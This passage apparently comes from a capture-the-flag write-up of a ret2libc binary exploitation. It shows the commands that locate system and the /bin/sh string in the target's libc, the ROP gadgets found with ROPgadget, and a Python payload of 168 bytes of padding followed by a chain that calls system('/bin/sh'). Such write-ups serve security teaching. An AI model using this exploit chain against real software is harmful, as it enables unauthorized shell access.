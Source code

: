 
#### system and sh Addresses

I’ll grab a copy of the LIBC from the container (so that I’m sure it’s the
same as the target) and use `readelf` to get the offset to the address of
`system` in LIBC:

    
    
    oxdf@hacky$ readelf -s --wide target_libc | grep " system"
      1022: 000000000004ebf0    45 FUNC    WEAK   DEFAULT   16 system@@GLIBC_2.2.5
    

LIBC has the string `/bin/sh` in it, and `strings` will get the address:

    
    
    oxdf@hacky$ strings -a -t x target_libc | grep /bin/sh
     1b51d2 /bin/sh
    

I’ll update my script:

    
    
    bin_sh_addr = libc_base + 0x1b51d2
    system_addr = libc_base + 0x4ebf0
    

#### Gadgets

To call `system('/bin/sh')`, I need to get the address of the string into RDI.
I’ll also want a `ret` gadget for stack alignment. I’ll use
[ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to find gadgets:

    
    
    oxdf@hacky$ ROPgadget --binary target_libc | grep ": ret$"
    0x0000000000023159 : ret
    oxdf@hacky$ ROPgadget --binary target_libc | grep ": pop rdi ; ret$"
    0x00000000000240e5 : pop rdi ; ret
    

I’ll add those to my code:

    
    
    pop_rdi_ret = p64(libc_base + 0x240e5)
    ret_addr = p64(libc_base + 0x23159)
    

#### Payload

The payload is simply a return gadget, then a gadget to pop the sh string into
RDI, and then the address of system:

    
    
    payload2 = b"A"*168
    payload2 += ret_addr
    payload2 += pop_rdi_ret
    payload2 += p64(bin_sh_addr)
    payload2 += p64(system_addr)
    
